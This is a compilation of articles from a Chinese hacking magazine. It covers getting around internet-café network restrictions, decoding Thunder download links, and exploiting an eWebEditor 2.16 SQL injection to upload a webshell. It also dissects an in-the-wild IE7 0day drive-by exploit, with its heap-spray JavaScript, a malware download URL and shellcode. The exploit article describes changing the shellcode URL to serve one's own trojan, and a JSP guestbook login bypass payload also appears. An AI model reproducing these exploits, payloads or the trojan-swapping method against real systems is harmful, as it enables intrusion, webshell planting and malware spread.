这样的话我们就可以先到 VIP 区上网，用 IPCONFIG 命令获取 VIP 专区的 IP 配置、网关信息等内容，下次到普通区上网时只需要把普通区的 IP 调成和 VIP 区的同一个网段和同一个网关就可以了。如果网吧也限制了不能管理网络连接的话，我们就可以用 NETSH 命令了，这里以 IP 192.168.2.5、子网掩码 255.255.254.0、网关 192.168.2.1、DNS 202.202.202.202 和 202.202.202.203 为例，说明怎么用 NETSH 命令手动配置 IP，相关命令如下：

```text
netsh interface set address name="本地连接" source=static addr=192.168.2.5 mask=255.255.254.0 gateway=192.168.2.1 gwmetric=auto
netsh interface ip set dns name="本地连接" source=static addr=202.202.202.202 register=primary
netsh interface ip set dns name="本地连接" source=static addr=202.202.202.203 index=2
```

上面 gwmetric 表示网关的路由级数，这里让它保持默认。register=primary 是表示这是主的 DNS 服务器 IP，index=2 表示这个是第二个 DNS 服务器 IP。

同样的，我们在命令提示行里面执行上面的命令或者保存为批处理文件来执行，就可以实现手动配置 IP 了。不过要注意，不要与 VIP 的机器 IP 冲突哦，一般 IP 的主机号都会对应机器的主机号，所以只要你输入一个比机器数大的主机号，一般是没有问题的。当然，你如果不知道有多少台 VIP 主机，也可以设置一个很大的数字。不过，如果网管在路由中对 IP 和 MAC 进行了绑定的话，这样做你还是上不了网的。

另外，这个命令对网吧的老板也是有用的，特别是那些换了双线路接入而不想买双线路接入路由的网吧（毕竟一个双线接入路由要比普通路由贵很多），可以用加一个普通路由，配置好后把这个新路由的 IP 设置得与原来的路由和主机都不同。

这样，只需要对客户机的桌面同步一个批处理文件，内容就是上面手动配置 IP 的命令，可以保持客户机的 IP 不变，只是更改网关和 DNS 为新的就可以实现换线功能了。这样，客户只需要点击一下这个批处理就可以轻松地切换网络，当然我们还应该准备另外一个批处理还原为原来的网络设置。不过这个方法一定要记住：**两个路由最多只能有一个开启 DHCP 功能哦。**

好了，上面讲了那么多 NETSH 命令的使用，相信大家对这个命令已经有一定的了解了吧？下面我再给大家简单介绍另外一个实用的小命令 devcon。

Devcon 命令主要是用来对计算机的设备进行管理的，前段时间我宿舍的 DHCP 服务器不是很稳定，老是需要禁用启用网卡才能获取 IP，于是我就用 DEVCON 命令编写了一个小程序实现快速禁用启用网卡。

在使用 DEVCON 命令前，需要先知道我们想要管理的设备的物理名称。在“我的电脑”上按鼠标右键，依次选择“属性”——“硬件”——“设备管理器”，进入到设备管理器，选择我们想要管理的设备，然后按鼠标右键，选择“属性”——“详细信息”，这时下方就会出现一排设备的编号，如图1。

我们需要截取第一个 & 和第二个 & 中间的数据，如我这里截取的是 DEV_4222，这样我的批处理内容就如下：

```text
devcon disable *DEV_4222*
devcon enable *DEV_4222*
```

这样就可以实现对网卡的快速禁用并启用了。如果这个命令不起作用，可以把我随文章提供的 DEVCON 程序放到 WINDOWS 下的 SYSTEM32 目录下试试。另外，我们也可以用类似的方法实现对声音的快速控制，devcon disable 是禁用，devcon enable 是启用，这样我们就可以通过快速禁用声卡达到休息时间不吵闹别人，呵呵。

不知不觉已经写了这么多，其实还有很多很实用的小命令等着我们去发掘哦！文章中相关的批处理和程序我都已经打包了，有需要的可以到光盘中寻找。技术是无止境的，我希望大家能通过《黑客手册》这个平台一起进步！

> [文章中所提到的工具已收录于本期光盘]

**编辑点评：**

就像 lcx 说过的，其实有好多命令我们根本就没有接触过。Windows 本身就是一部学不完的书，要是什么都掌握了，那你也是一个高手了。题外话，好久没有见老邪的文章了，呵呵……

## 教你突破下载站封锁线

从本文你可以学到：

对 Base64 算法的了解

相信大家在网上下载软件时经常会遇到只支持迅雷、FlashGet 等下载工具的软件站吧？如图1。有些朋友平时用惯了 IE 自带的下载，并没有安装新式的 P2P 下载工具，这就造成了很大的不便。今天，我就教大家如何突破下载站的这一限制。

### 一、分析

首先明确一下我们的目的，那就是将迅雷等下载工具的专用链接转换为正常的下载链接。图2是我截取的一条迅雷专用下载链接，我们就以它为样本进行分析吧。

我看了一下这条地址，它大致可以分为“thunder://”和后面的代码两部分。“thunder://”大家应该很熟悉，和我们平时浏览网页的“http://”以及传输文件用到的“ftp://”一样，“thunder://”应该也是一个协议，用来标示迅雷。

这与我们的主题无关，先不用去管它，至于后面那串代码“QUFodHRwOi8vemp0ZWxlNC5za3ljbjlbjb20vZG93bjp2bXNrMjAwOF9za3ljbi56aXBaWg==”就耐人寻味了，它明显经过加密处理，这就是我们的目标了，我们只要将它解密就能得到原始链接。

### 二、实战


| 索引 | 字符 | 索引 | 字符 | 索引 | 字符 | 索引 | 字符 |
|---|---|---|---|---|---|---|---|
| 0 | A | 17 | R | 34 | i | 51 | z |
| 1 | B | 18 | S | 35 | j | 52 | 0 |
| 2 | C | 19 | T | 36 | k | 53 | 1 |
| 3 | D | 20 | U | 37 | l | 54 | 2 |
| 4 | E | 21 | V | 38 | m | 55 | 3 |
| 5 | F | 22 | W | 39 | n | 56 | 4 |
| 6 | G | 23 | X | 40 | o | 57 | 5 |
| 7 | H | 24 | Y | 41 | p | 58 | 6 |
| 8 | I | 25 | Z | 42 | q | 59 | 7 |
| 9 | J | 26 | a | 43 | r | 60 | 8 |
| 10 | K | 27 | b | 44 | s | 61 | 9 |
| 11 | L | 28 | c | 45 | t | 62 | + |
| 12 | M | 29 | d | 46 | u | 63 | / |
| 13 | N | 30 | e | 47 | v | pad | = |
| 14 | O | 31 | f | 48 | w |  |  |
| 15 | P | 32 | g | 49 | x |  |  |
| 16 | Q | 33 | h | 50 | y |  |  |


……始下载地址。大家有没有看见代码后的等号？根据我的经验，这应该是 Base64 编码的其中一个标志（原因后面会说），也就是说，这是经过 Base64 加密的。

Base64 是一种很常见的编码规范，其作用是将二进制序列转换为可读的 ASCII 字符序列，常用在需要通过文本协议传输二进制数据的情况下。Base64 并不是一种用于安全领域的加密解密算法，它的变换是非常简单的，仅仅能够避免信息被直接识别。下面，我说明一下它的加密过程。

我们知道，在计算机系统中，数据是以二进制形式存储的，Base64 的加密就是基于二进制基础的。比如我们要用 Base64 算法加密英语单词“doctor”：

- 1. 选取三个字节的数据：`doc` 和 `tor`
- 2. 将其转为 ASCII 码，得到：`100 111 99` 和 `116 111 114`
- 3. 转换为二进制，得到 `01100100 01101111 01100011` 和 `01110100 01101111 01110010`
- 4. 将得到的 24 个 bit 每 6 个分一组，在每组前两位加两个 0 形成四个字节的数据，得到 `00011001 00000110 00011101 00010011` 和 `00011101 00000110 00011101 00010010`
- 5. 转换为 10 进制，得 `25 6 61 35 29 6 61 50`
- 6. 对照 Base64 编码表，如图3，将数字所对应的字母连起来就得到了 Base64 编码：`ZG9jdG9y`

读者可能还会有疑问，如果要加密的数据长度不是 3 的整数倍，这该怎么办？我们把多余的那个数据用（pad）表示，多余几个数据就用几个（pad）。

在 Base64 编码表中，（pad）对应的是“=”，这也就是我判断迅雷专用下载链接是 Base64 加密的依据。只要你将上述的加密过程逆向操作一遍，就能手工解密。网上也有很多 Base64 的在线破解器，我就以 `http://tool.114la.com/base64.html` 为例，如图4，我们输入代码，点击“BASE64解密”，结果如图5。在“AA”与“ZZ”之间的就是原始的下载地址！

为方便起见，我给大家推荐一款用来还原下载工具专用链接的软件，界面如图6，大家把要转换的地址输入文本框，点击“转换并复制”就行了。

### 三、总结

文章到此结束了，本文并没有太多技术含量，只是想告诉大家，遇到问题要勤于思考才会有进步。黑客精神需要大家一起来演绎！

> 【文章中涉及到的软件已收录于本期光盘】

## 编辑点评

如果是下载文件的话，这个协议本身就是迅雷开发的，所以说下载的时候不用管它变成什么样子，直接点击 URL，迅雷就会自动下载了。如果是要看个究竟，那么本文就是一个例子，以此让大家了解一下 Base64 的基本知识。

## 浅析木马——基于开源代码更新的漏洞挖掘技巧

**从本文你可以学到：**  
一些漏洞挖掘技巧

### 背景

所谓补丁或者更新，一直以来是研发方为更新产品安全问题、增加新功能或提高运行效率而发布的。但对于安全研究人员来讲，补丁或者更新一直以来也被认为是漏洞挖掘的“指南针”，就类似微软发布更新的星期二，常被很多安全研究人员喻为“Black Tuesday”。为什么这样讲呢？因为很多安全研究人员可以根据补丁逆向分析出问题所在，从而再次触发漏洞，迅速编写漏洞测试代码。通常情况下这种漏洞我们称为是 0day，但是在大的范围内造成的影响丝毫不比 0day 差。

### 客串

大家好，我是冰的原点，这期客串一下，呵呵，由于 ICE 兄出了点儿意外，就由我编辑这一期的“新闻练练看”了。我这会儿编辑完文章，明天还得赶火车呢！总是忘了点什么，可在文章的选取上却没有马虎哦！这一期的 FireFoX 大侠写的文章就很不错，通俗易懂，也是我编辑过程中比较有动力的文章。不想看我唠叨了吧，那就看文章吧（好冷呀……）。

@FireFoX [F.s.T]

### 前景

开源代码是研发方为迅速让大厂产品、扩大知名度的产物，大家常遇到的如 Linux、PHP、Apache、Firefox 等等都是知名的开源产品。大家从上也能看出，无论服务端、客户端，甚至一些安全相关的软件，也基于开源。由此分析，开源代码的漏洞挖掘将是大有前景。因为开源了，就不需要漫无目的 fuzz，更不需要一脸茫然地立即面对二进制。

大家对 SQL 注入的技术研究应该已经炉火纯青了，我也相信大家玩 Cookies 注入有段日子了，为什么提到 Cookies 注入呢？因为火狐技术联盟曾如秋水写出的“火狐通用防注入”程序在一段日子里给大家的注入带来了一定的困扰。后来经安全研究人员提出，该程序设计存在一定的疏漏，也就是疏忽了 Cookies 这种非正常提交，进而出现了 Cookies 注入、注入中转等相关利用方法。

# 新洞练练看

因源代码问题而被找出的漏洞实在是太多太多，但是对于一些研发方直接发布的补丁或者新版本，不知道大家有没有考虑过这其中补救了一些你不知道的漏洞？或者因其引入了一些新的功能而产生了新的漏洞呢？研究技术我们必须要抱有一种谦虚的态度，因为一些开源研发方发布的补丁，往往也侧面透露出研发方相关安全人员研究出的新的漏洞挖掘趋势。


图2

## 关于本文

这篇文章只是给大家一个小的观念，一些小的技巧，并不包含很多代码实例。当然，要想真正掌握这种技术，你需要了解自己所研究方向的编程基础，比如你有 ASP 的基础，就可以轻松揪出动网 6.0-6.01-7.0-7.01 这样一个升级过程中修补了什么样的漏洞；比如你有 PHP 的基础，就可以轻松揪出 DZ5-DZ6……其中一些并没有发布出来而被直接 update 的漏洞。当然，也许你更深入 PHP 5 alpha2 和 alpha3，你想了解很透彻，那就需要了解 PHP 开发语言的编程基础了。本文的最后，我会给出一个简单分析的示例。

## 一些准备

除了编程基础之外，还需要一些正则表达式和工具，比如一个好的文本编辑器，UE 就不错，支持正则的替换方法，可以让你净化代码后再进行分析，这样不至于被一些无关紧要的改动污染眼睛。另外就是比较工具，我自己写过一个脚本来进行处理，后来发现一个名为 DiffMerge 的软件比自己写的脚本直观多了，所以就用 DiffMerge（以下简称 DF）了，如图1。该工具能很快对比文件目录结构，然后给出直观的分析结果。


图3


图1

## 目标

以一个 ASP 程序为例，给大家阐述一次渗透测试，我想这样更为直观，当然用这样的方法你也可以冲动地去研究 Apache 或者 PHP 的一些版本更新。这次渗透测试的目标是一个全球百强的化妆品企业，渗透测试的信息收集非常重要，当然这不是本文的主旨。

## 实际应用

在经过一番信息收集后，判断出对方基本是自己开发的程序，但采用了 eWebEditor，猜默认口令时登录无果，对方整个网络仅有这样一个入口，如果无法攻破那么就要想办法实施社工。现在入侵陷入僵局，再仔细地翻看得到的信息，默认的 eWebEditor 数据库引起了我的注意，如图2。

是 2004 年的 eWebEditor 2.16 版，于是立即找到最新版和这个老版本的程序进行对比，2.80 最终版的更新说明是这样的：

- 1. 上传文件处理
- 2. 后台默认开启允许修改自带样式

v2.8.0 更新：

- 修复使用相对路径时，从其它站 copy 图片后粘贴，地址失效的问题
- 修复一个表单中有多个编辑区时，会多次提交的问题
- 修复非菜单按钮的撤消和恢复功能不能使用的问题
- 修复对象上移或下移一层有脚本错误信息的问题
- 修复删除对象时有脚本错误信息的问题

v2.8.0 正式版更新：

- 1. 修正证书文件自动上传可能导致表单二次提交的问题。此功能的实现方法使得远程自动上传功能更加强大，当一个表单中有多个编辑区时，可以指定某个编辑区内的文件自动上传，而其它的不具自动上传。具体见例子文件。
- 2. 修改简单新闻系统例子。


图4

第一点上传文件处理这块就引起了我的注意，其实很多的安全通告都以这种形式告诉大家更新，但是却不说明更新的位置。如果说二进制补丁分析有一定的难度，大家因为水平有限无法分析，那么开源的代码这样公告，如果我们不搞清楚那就是对自己的不负责任了。

言归正传，打开 DF3 将两个版本进行比较（大家也许会说直接拿 2.16 的代码读下就行了，为什么还这么费劲？那么请回到本文前提讲下“指南针”的含义，我给出这样对比代码的原因是为了给大家一个新的思路而已，并不是为了辩驳直接读代码有什么不对），如图3。

通过对比得知：相同文件 267，不同的有 61，那修补的部分或者新的功能应该就在这 61 个文件内。相信我，有时候安全漏洞利用是很琐碎的，没有一个“指南针”你去直接分析 Discuz 或者 VBB 的代码试下，就知道有多么辛苦。

按照图4中的方法进行条件筛选，只显示不同的部分，结果如图5。

两种颜色代表有不同之处，若你全部选择的话可以看到有黑色部分，黑色在 A 则代表 2.16 版本有的文件，2.80 版本没有。限于篇幅，我们直奔主题文件 `upload.asp`，因为 2.8 说更新了一个上传的问题。双击 `upload.asp`，如图6。

两种颜色对应，标示不同的段落进行了更新，我分析了下发现一个注入问题存在，并没有所谓的上传漏洞。2.16 版本的代码如下：

# 新闻练练看


```vb
Sub initUpload()
    sType = UCase(Trim(Request.QueryString("type")))
    sStyleName = Trim(Request.QueryString("style"))
```

2.80 版本代码如下：

```vb
Sub initUpload()
    sType = UCase(Trim(Request.QueryString("type")))
    sStyleName = Get_SafeStr(Trim(Request.QueryString("style")))
```

然后同样的方式读取数据库来返回样式的配置，语句为：

```vb
sSql = "select * from ewebeditor_style where s_name='" & sStyleName & "'"
```

很明显，2.16 的注入所在就是 `upload.asp` 文件，怎么利用呢？传统的注入我们是为了拿到后台管理账户，如果是 SQLi，我们可以 backupshell 或者 dirtree，但是这里是 Access，而且登录的页面也已经被和谐了，再仔细地研究这个编辑器上传的原理吧，如图7。


既然 `sStyleName(style)` 处有注入，那么我们完全可以使用 union 来控制返回的内容。在 `S_ImageExt` 字段加上一个 `cer` 类型来实现上传一个 `webshell`，这样的方法的确猥琐，不过确实是可行的。

下面来进行一些测试，架设 eWebEditor 2.16，首先直接请求下 `upload.asp`，发现返回代码如下：

```html
<script language=javascript>parent.UploadError('无效的样式ID号，请通过页面上的链接进行操作！');history.back()</script>
```

关键代码：

```javascript
var sAllowExt = "";
// 检测上传表单
function CheckUploadForm() {
    if (!IsExt(document.myform.uploadfile.value, sAllowExt)) {
        parent.UploadError('提示：\n\n请选择一个有效的文件，\n支持的格式有（'+sAllowExt+'）！');
    }
}
```

```javascript
var sAllowExt = "GIF|JPG|JPEG|BMP"
// 检测上传表单
function CheckUploadForm() {
    if (!IsExt(document.myform.uploadfile.value, sAllowExt)) {
        parent.UploadError('提示：\n\n请选择一个有效的文件，\n支持的格式有（'+sAllowExt+'）！');
        return false;
    }
    return true;
}
```

代码正确执行，读取了数据库中样式为 `standard` 的图片上传类型，那么下面我们就需要想办法构造我们的注入代码，利用 union 来控制数据库内的字段返回。

对照了一下数据库的字段，我构造了如下代码：

```text
upload.asp?action=save&type=IMAGE&style=fst' union select S_ID,S_Name,S_Dir,S_CSS,S_UploadDir,S_Width,S_Height,S_Memo,S_IsSys,S_FileExt,S_FlashExt,'cer',S_MediaExt,S_FileSize,S_FlashSize,S_ImageSize,S_MediaSize,S_StateFlag,S_DetectFromWord,S_InitMode,S_BaseUrl from ewebeditor_style where s_name='standard' and 'a'='a
```

将其 URL 编码处理一下：

```text
upload.asp?action=save&type=IMAGE&style=firefox%20union%20select%20S_ID,S_Name,S_Dir,S_CSS,S_UploadDir,S_Width,S_Height,S_Memo,S_IsSys,S_FileExt,S_FlashExt,%20'cer',S_MediaExt,S_FileSize,S_FlashSize,S_ImageSize,S_MediaSize,S_StateFlag,S_DetectFromWord,S_InitMode,S_BaseUrl%20from%20ewebeditor_style%20where%20s_name='standard'%20and%20'a'='a
```

提交下我们再来看 `upload.asp` 返回给我们的关键部分内容，如图8。


```javascript
var sAllowExt = "GIF|JPG|JPEG|BMP|CER"
// 检测上传表单
function CheckUploadForm() {
    if (!IsExt(document.myform.uploadfile.value, sAllowExt)) {
        parent.UploadError('提示：\n\n请选择一个有效的文件，\n支持的格式有（'+sAllowExt+'）！');
        return false;
    }
    return true;
}
```

成功将 `cer` 文件加载进了配置，但是默认的 `upload.asp` 文件是没有提交按钮的，我们伪造一个好了，如图9。当然，这里用 nc 也可以。


选择一个 `cer` 的文件上传，成功后自动返回到 `http://localhost/upload.asp`，我们再来看源代码，最后一行如下：

```javascript
<script language=javascript>parent.UploadSaved('20081223151151624.cer');
parent.dialogArguments.addUploadFile('2006.cer','20081223151151624.cer');
history.back();</script>
```

现在，一个 webshell 到手了。

## 后语

以这样一个蹩脚的例子搞这样一个标题的确有些夸张，不过这里仅仅是说一种思路，如果在 Discuz、PHP 或者 Apache 的版本更新中找问题，往往不是这样简单。当然，无论怎样，一个“指南针”一定能为你的漏洞挖掘工作提升效率。最后，由于很少这样长篇大论，思路和文笔也都有限，对本文大家若有疑问或者有更好评判，请到“黑手”论坛找我。

> 【文章中所涉及到的工具已收录于本期光盘】

## 编辑点评

很精彩的一篇文章，至少我是一口气从头到尾把这篇文章看完了的。这里以 eWebEditor 作为一个例子，层层分析，原来漏洞就是这么分析出来的。看到这里，是不是会感到为什么一些“牛人”手中会有你不知道的漏洞呢？本文是不是又为你提供了一种渗透 eWeb 的思路呢？这篇文章强烈推荐大家精读。


Chenchen

**从本文你可以学到：**  
IE 0day shellcode 提取和分析

最近互联网上的重量级漏洞是不断地爆发，微软 MS 忙个不停了，这不，MS 再一次给大家送来了年终奖——IE7.0 0day。早在 2008 年 12 月 8 号，就出现了此漏洞的挂马网站，最开始的地下交易已经有该漏洞利用的脚本出售，而且竟然开价高达 12W！截止到 19 号为止，约有 13 万的用户感染了利用该漏洞所下载的木马。MS 也承认，约有 0.2% 的网民（绝大多数是来自中国的）感染了利用该漏洞传播的病毒。

关于利用此漏洞挂马的网页是不计其数，用 Google Hack 就可以搜索到，网上也有相关的工具，读者可以自行到网站下载利用程序。这里就拿其中的一个 shellcode 来好好地剖析一番，深入研究一下。

- 1. 原目标网站：`http://abcrot.cn/03/lx7.htm`（一直在不断更新……）
- 2. 有关 unescape 的解密工具 u-shellcode（是江民工程师 coderui 所开发，用来分析挂马网站的小工具，它支持多重数据转换的方式）
- 3. PE 文件修改工具 File Format Identifier（也叫做超级巡警分析工具）
- 4. 反汇编工具 C32Asm（国人 pII 写的反汇编工具）
- 5. 调试工具 OllyICE（pediy 修改版）

## 一、漏洞的原理简述

来看看这个挂马网站的源文件（编辑注：没见作者提供的源码，不过可以用迅雷把 `http://abcrot.cn/03/lx7.htm` 下载下来分析），分析该漏洞我们分如下几步：

1、通知 IE 用 JavaScript 处理 XML（XML 标签是经过黑客们匠心构造的），通过这个特殊构造后的 XML 代码，IE7 的一个漏洞被激发。

```javascript
if(version==7)
{
eval(f'\144\57\143\165\155\145\156\164\56\167\162\151\164\50\47\74\130\115\114\40\111\104\75\111\76\74\130\76\74\44\133\103\104\101\124\101\133\74\151\155\141\147\145\40'
```

```text
\123\122\103\75\150\164\164\160\72\57\57\46\43\61\64\73\46\43\62\65\67\60\73\46\43\61\64\73\61\64\157\163\56\143\157\155\40\163\162\143\75\150\164\160\72\57\57\167\167\167\56\147\157\157\147\154\145\56\143\157\155\135\76\74\43\160\124\101\133\103\104\101\124\101\133\76\74\123\120\101\116\40\104\101\124\101\123\122\103\75\43\111\40\104\101\124\101\106\117\122\115\101\124\75\110\124\115\114\76\74\57\123\120\101\116\40\104\101\124\101\106\117\122\115\101\124\75\110\124\115\114\76\74\57\123\120\101\116
```

以上的脚本经过了加密，解密以后就可以看到（）里的代码。

```html
<![CDATA[<imageSRC=http://&#114;&#2570;book.com src=http://www.google.com>![CDATA[]]></C></X></xml><SPAN DATASRC=#i DATAFLD=c DATAFORMATAS=HTML></SPAN><SPAN DATASRC=#i DATAFLD=c DATAFORMATAS=HTML></SPAN>'];
```

问题的关键就是 `mshtml.dll` 对 `ImageSRC` 字段数据的解析，`&#114;` 把十进制的 114 转成 `0x0072`，`&#2570` 把十进制的 2570 转成 `0x0a0a`，刚好它们拼在一起就是一个可利用的堆地址：`0x0a0a0072`。然后通过 heap spray，分配大量的内存可以使 shellcode 填充到这个地址空间去。由于是重用了一个释放了的对象的指针（这时已经不是指向原来那个对象，而是指向我们可以自定义的 URL 链接部分），造成可以执行我们自己构造的数据。

基于此，很多反病毒公司在 MS 开始发布补丁之前，所用的补丁程序就是替换掉修改的 `mshtml.dll`，以此避免了以上问题出现。

2、其次是计算内存地址代码段：

```javascript
function spray(sc){
var infect=unescape(sc.replace(/cuteqqcn/g,'\\x25\\x75'));
var CuteSize=0x100000;
var cuteLoadSize=infect.length*2;
var szLong=CuteSize-(cuteLoadSize+0x38);
var retVal=unescape('%u0c0a%u0a0a');
retVal=getSampleValue(retVal,szLong);
aaabkk=(0x0a0a0a0a-0x100000)/CuteSize;
zzchuck=new window['Array']();
for(i=0;i<aaabkk;i++){zzchuck[i]=retVal+infect}
}
```

```javascript
function getSampleValue(retVal, szlong)
{
    while (retVal.length + 2 < szlong)
        retVal = 'f' + retVal;
    retVal = retVal.substring(0, szlong / 2);
    return retVal;
}
```

基本上所有利用此漏洞的网页都或多或少是完全抄袭了以上的代码。当然了，这也就是为什么这么好卖钱的原因吧，要不然谁都可以写出来。

## 3、有关原挂马地址 shellcode

```javascript
var a1='...cuteqqcn...';
spray('cuteqqcn9090cuteqqcn9090' + 'a1' + '6090cute...');
```

以上是一个加密的地址，也是之后要探讨的重点，那就是为什么几乎所有的挂马页不同的原因。每一个作者都有不同的构架自己 shellcode 的路线，之所以可以换加密地址，也是一种换汤不换药的做法。有关解密的部分，可以参看第二节。

## 二、此 shellcode 的提取和调试过程

为了调试一个自己的 shellcode，要利用 2 个工具——File Format Identifier 和 C32Asm。先将 cuteqqcn 全部替换为 %u，然后再利用 ushellcode 把该 shellcode 转化为可执行文件的代码。具体的操作步骤如下：

- 1. 将 shellcode 转换为 16 进制码，如图 1。


- 2. 再把 16 进制码转换为指令，选择“新建一个 16 进制文件”，如图 2。然后选择“编辑”→“特殊粘贴”→“Ascii hex”→“保存文件”，如图 3。

- 3. 利用已制作好的 shellcode 指令，来感染一个 PE 文件。为什么是要用“感染”的方式？因为要将该 shellcode 转化为可执行文件，比用宿主的文件感染麻烦得多。所以为了问题的简化，这里就只是用感染正常的文件来达到相同的效果。


图 4，是未被修改的正常文件的基本信息。接着我们用 FFI 来增加区段，如图 5。该区段名字可随意取，但要注意“区段的数据”一栏上要选择从文件加载（load files），如图 6、图 7。


接着在刚才已增加的区段里选择编辑，如图 8。将所加的代码执行，如图 9。最后把入口点改为 00220000 后，shellcode“感染”就完毕。


- 4. 将已经感染的 PE 文件载入至 OllyIce，来到如下代码处：

```asm
00422000    nop
00422001    nop
00422002    nop
00422003    nop
00422004    nop
00422005    nop
00422006    jmp short 0042201F
00422008    pop esi
00422009    mov eax,dword ptr fs:[30]
0042200F    add eax,80
00422014    mov edi,eax
00422016    mov ecx,400
0042201B    rep movs byte ptr es:[edi],byte ptr ds:[esi]
0042201D    jmp eax
0042201F    call 00422008
```

当拿到这个 shellcode 的时候很奇怪，因为一般的 shellcode 或多或少都带有代码加密，至少从 10 号开始所截获的挂马页来看，99% 都利用了这一点。但很“遗憾”的是，该 shellcode 却没有任何的加密，断点完成之后来到如下位置：

```asm
7FFD8B00    mov eax,dword ptr fs:[30]
7FFDB806    mov eax, dword ptr [eax+C]
7FFDB809    mov esi, dword ptr [eax+1C]
7FFDB80C    lods dword ptr [esi]
7FFDB80D    mov esi, dword ptr [eax+8]
7FFDB810    sub esp, 200
7FFDB816    mov esp, esp
7FFDB818    mov ebx, 20FE8
7FFDB81D    mov eax, dword ptr [ebx]
7FFDB81F    test eax, eax
7FFDB821    jnz 7FFDB8E2
7FFDB827    inc dword ptr [ebx]
7FFDB829    jmp 7FFDB84F
```

执行跳转之后就直接来到了主体段，很是纳闷，没有做任何的辅助工作就单刀直入了。

```asm
7FFDBA4F    call 7FFDB82E
7FFDB82E    pop
```

来到了病毒主体段，来到了这里，压栈了网址：http://www-onlinedown-com/ie7/DUMete.exe

```asm
7FFDB833    push 0E8AFE98
7FFDB838    call 7FFDB8EE
7FFDB841    push ECE04E8E
7FFDB846    call 7FFDB8EE
```

调用了 kernel32.WinExec；调用了 kernel32.LoadLibraryA，定位 urimon.dll。

```asm
7FFDB84F    push B8E579C1
7FFDB854    call 7FFDB8EE
```

调用了 Kernel32.GetSystemDirectoryA，获取该系统的目录。

```asm
7FFDB85D    push 794BC61B
7FFDB862    call 7FFDB8EE
```

调用了 kernel32.VirtualProtect，企图在内存中动态修改代码。

之前的函数：

```asm
7FFDB86A    push 7C0DFCAA
7FFDB870    call 7FFDB8EE
7FFDB879    push B46984E7
7FFDB87E    call 7FFDB8EE
```

调用了 kernel32.GetProcAddress 获取 urimon.dll 的输出库函数地址；调用了 kernel32.HeapCreate 创建一个内存堆用于以后的改写。

```asm
7FFDB883    mov dword ptr [ebp+14], eax
7FFDB886    mov ebx, 20FE0
7FFDB88B    mov dword ptr [ebx], eax
7FFDB88D    xor esi, esi
7FFDB88F    mov dword ptr [ebp+28], 4D4C5255
7FFDB896    mov dword ptr [ebp+2C], 4E4F
7FFDB89D    lea ebx, dword ptr [ebp+28]
7FFDB8A0    push ebx
7FFDB8A1    call dword ptr [ebp+4]
```

调用了来自 urimon 的函数。

```asm
...
7FFDB8A4    push eax
7FFDB8A5    push 702F1A36
7FFDB8AA    call 7FFDB8EE
7FFDB8DA    call dword ptr [ebp+C]
```

dll 里头的 URLDownloadToFileA 来执行网页的下载，调用了 kernel32.WinExec 执行下载的马。

很快地就可以知道这个木马的威力了（鉴于此部分与本文的关系不大，就只作简单的概述。有关于木马的分析流程请参考本人的另外一篇文章）。首先它会在你 C 盘的根目录之下创建 autorun.inf 文件，而且还会在 %Temp% 里创建 dll906.dll 和 system.dll，或许这是对付你的杀软。不过还不够，它还会在 %System% 释放 NskhelperX.sys（X 为 1～9 的数字），又修改你的 hosts 文件，造成无法访问杀毒软件的网站，而且还会修改注册表 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options，从而达到了映像劫持的目的。

## 三、关于该漏洞的利用价值

其实呢，最为关键的就是如何利用该漏洞为自己来挂马，所以呢，shellcode 的最大价值就是找到最佳马地址。上面的地址：http://www-onlinedown-com/ie7/DUMete.exe 如果变成了 unescape 值就是：%u7468%u7074%u2f3a%u772f%u7777%u6f2d%u6c6e%u6e69%u6465%u776f%u2e6e%u6f63%u2f6d%u6569%u2f37%u5544%u654d%u6574%u652e%u6578，那么要替换什么就随便大家了，具体的方法和上面的是一样的。当然啦，也可以直接从脚本的源代码里替换。

以上就是 shellcode 的提取和制作过程，可以说是一个通用的版本，大家有什么问题可以到“黑手”论坛找我。（上述只作技术上的交流，由于本文所产生的任何违法行为与作者和《黑客手册》无关）

> **编辑点评：** 要是作者能做个动画并把工具也附上来，我想这才会更好！关于 shellcode 的提取和制作我也不太熟悉，算是一个教程吧，我们一起学习。

## Jsp 脚本安全分析（一）——Eron 留言本分析

□ 拉风酷

- 从本文你可以学到：
- Java 操作数据库的基本知识
- JSP 参数传递处理方式

本来首先是采用的 ASP 下的那种写法，但是老是报错，所以我就改成采用 ODBC 的连接方式。

### 一、源码介绍

Eron 留言本是网上某作者的练习作品，就安全性来说基本没有考虑，程序采用的是 scriptlet，逻辑处理和数据库操作以及显示给用户的页面都没有分开，其写法与 ASP 颇为相似。本文主要引导大家从 ASP 跨入 JSP 领域，我们先来看看程序功能，主要有游客的“添加留言”、“显示留言”，以及管理员的“登录”、“删除留言”，所以提交请求、操作数据库的主要是“查询”、“添加”、“删除”。搞清楚这些就比较好分析哪些地方有交互，我们来看看数据库连接的代码（conn.jsp）：

```jsp
<%
Class.forName("sun.jdbc.odbc.JdbcOdbcDriver"); // 加载驱动
Connection conn=DriverManager.getConnection("jdbc:odbc:jspbook");
// odbc 数据源连接
%> // jspbook 为 odbc 的数据源
```

### 二、后台验证绕着走（SQL 注入）

管理员登录的地方作者没有考虑安全性，直接用获得的用户名和密码构造 SQL 语句进行判断，具体看 check.jsp 代码：

```jsp
String name,pwd;
name=request.getParameter("adminname"); // request 内置对象的 getParameter 方法，获得请求值
pwd=request.getParameter("adminpwd");
Statement stmt=conn.createStatement(); // 创建 statement 对象，用于发送 SQL 语句给数据库
ResultSet rs=stmt.executeQuery("select * from admin where admin='"+name+"' and adminpwd='"+pwd+"'");
if(rs.next()){ // 如果有记录！类似于 ASP 中的 eof、bof 实现的功能
session.putValue("name",name); // 将变量 name 的值写入 session 中
session.putValue("pwd",pwd);
rs.close(); // 关闭结果集，释放资源
}
```


图 1 构造 SQL 语句成功绕过管理员登录验证

```jsp
stmt.close(); // 关闭 Statement 对象释放资源
response.sendRedirect("index.jsp");
} else {
```

通过我的注释，意思大家应该都明白了吧？漏洞代码出现的原因是 request.getParameter() 对获得的传递过来的参数值没有进行任何处理就发送到数据库里进行操作了！我们构造一下语句 name:admin' OR '1'='1，pwd 随便乱写，这样就可以成功登录后台，如图 1。

### 三、XSS 危害

上面那个是管理员登录的地方，下面我们来看“添加留言”这个地方，这里是将留言信息放入数据库中，但是作者也没有对得到的值进行过滤，具体看代码，文件是 add2.jsp：

```jsp
String zt,username,qq,email,sex,tx,nr,zl,username1,qq1,sex1,tx1,nr1;
zt=request.getParameter("zt"); // 获得参数 zt 的值
zt=(new String(zt.getBytes("iso-8859-1"),"gb2312")); // 对值进行编辑，以国际标准中文简体
if(username.length()!=0&&nr.length()!=0){ // 仅仅只是判断了是否有值
    try{
